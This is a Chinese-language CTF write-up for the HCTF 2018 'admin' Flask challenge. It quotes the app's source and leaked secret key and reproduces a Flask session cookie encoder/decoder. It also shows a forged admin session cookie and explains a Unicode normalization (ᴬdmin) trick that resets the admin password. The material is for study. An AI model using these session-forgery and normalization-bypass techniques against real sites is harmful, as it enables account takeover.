


hctf2018 admin
#前言
又是一项大工程
看了一下有login，register，posts（发post），chenge password，logout。然后注册的时候，我试了下admin，说是这个admin，已经被注册过了，并且注释了也有说，你不是admin。然后我是想，把admin所对应的密码爆出来，但是没成功，就没办法了。应该不像是万能密码之类的。
哦，不是爆不出来，是密码字典不行，密码123，登上去就直接出来flag
看wp
因为有change password的功能，可能可以通过修改密码的功能改掉admin的密码，然后以admin登录。在change password的源代码处，发现有一个https://github.com/woadsl1234/hctf_flask/，
这是一个flask项目，代码结构简单如下图。

flask项目，就先去路由去看一下，打开route.py,看一下index的注册函数代码。
@app.route('/')
@app.route('/index')
def index():
return render_template('index.html', title = 'hctf')发现index的注册码没有做什么处理，那就直接返回index.html渲染模板，于是我们看一下templates/index.html代码。
{% include('header.html') %}
{% if current_user.is_authenticated %}
Hello {{ session['name'] }}
{% endif %}
{% if current_user.is_authenticated and session['name'] == 'admin' %}
hctf{xxxxxxxxx}
{% endif %}
<!-- you are not admin -->
<h1 class="nav">Welcome to hctf</h1>
{% include('footer.html') %}从上述代码可以看出，只有登录admin才可以得到flag。于是继续看向route.py文件，看看login和change password地注册函数嘛是怎么写的。route,py部分代码如下：
@app.route('/register', methods = ['GET', 'POST'])def register():
if current_user.is_authenticated:
return redirect(url_for('index'))
form = RegisterForm()
if request.method == 'POST':
name = strlower(form.username.data)
if session.get('image').lower() != form.verify_code.data.lower():
flash('Wrong verify code.')
return render_template('register.html', title = 'register', form=form)
if User.query.filter_by(username = name).first():
flash('The username has been registered')
return redirect(url_for('register'))
user = User(username=name)
user.set_password(form.password.data)
db.session.add(user)
db.session.commit()
flash('register successful')
return redirect(url_for('login'))
return render_template('register.html', title = 'register', form = form)
@app.route('/login', methods = ['GET', 'POST'])
def login():
if current_user.is_authenticated:
return redirect(url_for('index'))
form = LoginForm()
if request.method == 'POST':
name = strlower(form.username.data)
session['name'] = name
user = User.query.filter_by(username=name).first()
if user is None or not user.check_password(form.password.data):
flash('Invalid username or password')
return redirect(url_for('login'))
login_user(user, remember=form.remember_me.data)
return redirect(url_for('index'))
return render_template('login.html', title = 'login', form = form)
@app.route('/logout')
def logout():
logout_user()
return redirect('/index')
@app.route('/change', methods = ['GET', 'POST'])
def change():
if not current_user.is_authenticated:
return redirect(url_for('login'))
form = NewpasswordForm()
if request.method == 'POST':
name = strlower(session['name'])
user = User.query.filter_by(username=name).first()
user.set_password(form.newpassword.data)
db.session.commit()
flash('change successful')
return redirect(url_for('index'))
return render_template('change.html', title = 'change', form = form)解法一————flask session伪造
flask的session是存储在客户端cookie中的，而且flask仅仅对数据进行了签名。众所周知的是，签名的作用是防止篡改，而无法防止被读取。而flask并没有提供加密操作，所以其所有的session的内容是可以在客户端被读取的，这也可以造成一些安全问题。
我们可以用python脚本把flask的session揭秘出来，但是如果想要加密成自己的session的话，还需要知道flask用来签名的secret_key,在github中找，可以在config.py里发现下面代码
import os
class Config(object):
SECRET_KEY = os.environ.get('SECRET_KEY') or 'ckj123'
SQLALCHEMY_DATABASE_URI = 'mysql+pymysql://root:adsl1234@db:3306/test'
SQLALCHEMY_TRACK_MODIFICATIONS = True估计ckj123就是secret_key，所以session伪造这条路可以走，于是在github上找找看有没有flask session加密的脚本。

把脚本down下来，然后执行，脚本代码如下。
flask_session_manager.py
""" Flask Session Cookie Decoder/Encoder """
__author__ = 'Wilson Sumanang, Alexandre ZANNI'
# standard imports
import sys
import zlib
from itsdangerous import base64_decode
import ast
# Abstract Base Classes (PEP 3119)
if sys.version_info[0] < 3: # < 3.0
raise Exception('Must be using at least Python 3')
elif sys.version_info[0] == 3 and sys.version_info[1] < 4: # >= 3.0 && < 3.4
from abc import ABCMeta, abstractmethod
else: # > 3.4
from abc import ABC, abstractmethod
# Lib for argument parsing
import argparse
# external Imports
from flask.sessions import SecureCookieSessionInterface
class MockApp(object):
def __init__(self, secret_key):
self.secret_key = secret_key
if sys.version_info[0] == 3 and sys.version_info[1] < 4: # >= 3.0 && < 3.4
class FSCM(metaclass=ABCMeta):
def encode(secret_key, session_cookie_structure):
""" Encode a Flask session cookie """
try:
app = MockApp(secret_key)
session_cookie_structure = dict(ast.literal_eval(session_cookie_structure))
si = SecureCookieSessionInterface()
s = si.get_signing_serializer(app)
return s.dumps(session_cookie_structure)
except Exception as e:
return "[Encoding error] {}".format(e)
raise e
def decode(session_cookie_value, secret_key=None):
""" Decode a Flask cookie """
try:
if(secret_key==None):
compressed = False
payload = session_cookie_value
if payload.startswith('.'):
compressed = True
payload = payload[1:]
data = payload.split(".")[0]
data = base64_decode(data)
if compressed:
data = zlib.decompress(data)
return data
else:
app = MockApp(secret_key)
si = SecureCookieSessionInterface()
s = si.get_signing_serializer(app)
return s.loads(session_cookie_value)
except Exception as e:
return "[Decoding error] {}".format(e)
raise e
else: # > 3.4
class FSCM(ABC):
def encode(secret_key, session_cookie_structure):
""" Encode a Flask session cookie """
try:
app = MockApp(secret_key)
session_cookie_structure = dict(ast.literal_eval(session_cookie_structure))
si = SecureCookieSessionInterface()
s = si.get_signing_serializer(app)
return s.dumps(session_cookie_structure)
except Exception as e:
return "[Encoding error] {}".format(e)
raise e
def decode(session_cookie_value, secret_key=None):
""" Decode a Flask cookie """
try:
if(secret_key==None):
compressed = False
payload = session_cookie_value
if payload.startswith('.'):
compressed = True
payload = payload[1:]
data = payload.split(".")[0]
data = base64_decode(data)
if compressed:
data = zlib.decompress(data)
return data
else:
app = MockApp(secret_key)
si = SecureCookieSessionInterface()
s = si.get_signing_serializer(app)
return s.loads(session_cookie_value)
except Exception as e:
return "[Decoding error] {}".format(e)
raise e
if __name__ == "__main__":
# Args are only relevant for __main__ usage
## Description for help
parser = argparse.ArgumentParser(
description='Flask Session Cookie Decoder/Encoder',
epilog="Author : Wilson Sumanang, Alexandre ZANNI")
## prepare sub commands
subparsers = parser.add_subparsers(help='sub-command help', dest='subcommand')
## create the parser for the encode command
parser_encode = subparsers.add_parser('encode', help='encode')
parser_encode.add_argument('-s', '--secret-key', metavar='<string>',
help='Secret key', required=True)
parser_encode.add_argument('-t', '--cookie-structure', metavar='<string>',
help='Session cookie structure', required=True)
## create the parser for the decode command
parser_decode = subparsers.add_parser('decode', help='decode')
parser_decode.add_argument('-s', '--secret-key', metavar='<string>',
help='Secret key', required=False)
parser_decode.add_argument('-c', '--cookie-value', metavar='<string>',
help='Session cookie value', required=True)
## get args
args = parser.parse_args()
## find the option chosen
if(args.subcommand == 'encode'):
if(args.secret_key is not None and args.cookie_structure is not None):
print(FSCM.encode(args.secret_key, args.cookie_structure))
elif(args.subcommand == 'decode'):
if(args.secret_key is not None and args.cookie_value is not None):
print(FSCM.decode(args.cookie_value,args.secret_key))
elif(args.cookie_value is not None):
print(FSCM.decode(args.cookie_value))脚本有解密加密的作用，具体用法如下：
我们把登录页面的cookie中的session复制下来：
.eJw9j0FrwkAQhf9K2XMPZmMugofCakhgJmxYXWYvoqlNMnEstIXEFf97QwveHnyPj_fu6tC_q9VdvZzUSqGHDOMmBtl2IFYjFxH8bkJNsXJNSq6YUGCJhib0pVSm7IOxY3Ado-kuxNhXeT1nSpH3Ambu5nALbBfAkJAUGiIOFJsxcDmAFCnp0AVnR8y3HMzmBgYFtZ3QNAmwXYKDSH6XAZcMPGjgWoCbtXq8qub76-Pw8zmcr88LYEgTtxHy0FF8y2ieUfndAuYcZH8JOd1I6gFdm5KnGJgyGNd_ul6O7flp8vttQvafXI8yA5Woxy_gZmLE.YCEcrA.rHKFgybomMZRkOtrUtERWPlSF9M解出来是
{'_id': b'5c9713faa2d66231e17f3977a216c84615bf82bd40e8c48eb3b8dc46765f0384c2f44235bb633dc70f2d2b7cfae404acd1203f7d1475248133ae922c29624f27', 'csrf_token': b'066b830fac09b5f9e4309feedf2bdd587af3f693', 'image': b'YQua', 'name': '1'}然后将name:后面的1改为admin，进行加密，得到session。
.eJw9j0Frg0AQhf9K2XMPcY2XQA6FTURhRlZMltlLSE2qjhkLbUHdkP9eaSG3B9_j4727OnUXtbmrl3e1UeggwbALXvYtiNXIWQB3mFBTKKo6piqbUGCNhiZ0uRQm77yxo69aRtPeiLEr0nLJFCMfBczSTWH2bFfAEJFkGgL2FOrRc96DZDFp3_rKjpju2ZvdDAYFtZ3Q1BGwXUMFgdwhAc4ZuNfApQDXW_V4VfX318fp57O_Ds8LYEgTNwFS31J4S2iZUbjDCpbs5XjzKc0kZY9VE5Oj4JkSGLd_uk7OzfVpcsd9RPafDGdZgDpfpBvU4xdxz2Sc.YCEm7Q.qff8PxWgZCxrPTSvX8vQa94gv_0后面应该就是改cookie，但是，我没有成功。很是i奇怪
unicode欺骗
我们可以发现，不管是login，register还是change页面，只要是关于session【“name”】的操作，都会先用strlower函数将name转成小写，但是python里有自带的转小写的函数lower，这里重写了一个，可能有猫腻，于是找到了strlower函数的定义。 def strlower(username):
username = nodeprep.prepare(username)
return username这里用到了nodeprep.prepare函数，而nodeprep是从twisted模块中导入的from twisted.words.protocols.jabber.xmpp_stringprep import nodeprep，在requirements.txt文件中，发现这里用到的twisted版本是Twisted==10.2.0，而官网最新版本为19.2.0(2019/6/2)，版本差距这么大，估计是存在什么漏洞，于是搜索一下nodeprep.prepare，找到一篇unicode安全的文章，https://paper.tuisec.win/detail/a9ad1440249d95b
这里原理就是利用nodeprep.prepare函数会将unicode字符ᴬ转换成A，而A在调用一次nodeprep.prepare函数会把A转换成a。
所以当我们用ᴬdmin注册的话，后台代码调用一次nodeprep.prepare函数，把用户名转换成Admin，我们用ᴬdmin进行登录，可以看到index页面的username变成了Admin，证实了我们的猜想，接下来我们就想办法让服务器再调用一次nodeprep.prepare函数即可。
我们发现在改密码函数代码里，也用到了nodeprep.prepare函数，也就是说，我们在这里改密码的话，先会把username改为admin，从而改掉admin的密码。
用改的密码登录即可